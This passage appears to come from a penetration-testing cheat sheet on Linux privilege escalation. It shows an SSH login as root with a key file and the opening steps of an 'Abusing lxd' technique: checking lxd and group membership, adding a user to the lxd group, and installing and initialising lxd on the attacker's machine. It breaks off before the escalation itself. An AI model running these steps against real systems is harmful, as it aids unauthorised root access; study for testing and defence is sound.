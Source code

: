 ***

* Use this to log in as _root_ using the key

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh root@$IP -i $keyfile 
```
{% endcode %}

## <mark style="color:orange;">Abusing lxd</mark>

* Verify _lxd_ is installed on the system

{% code overflow="wrap" lineNumbers="true" %}
```bash
lxd --version
```
{% endcode %}

***

* Check if the _lxd_ group exists

{% code overflow="wrap" lineNumbers="true" %}
```bash
groups
```
{% endcode %}

***

* Add the current user to the _lxd_ group (in case it isn't there yet)

{% code overflow="wrap" lineNumbers="true" %}
```bash
usermod --append --groups lxd $user
```
{% endcode %}

***

* On our machine, install the required _lxd_ components

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt install lxd
sudo apt install zfsutils-linux
```
{% endcode %}

***

* Activate the _lxd_ service and start it

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo systemctl start lxd.service
sudo lxd init
```
{% endcode %}

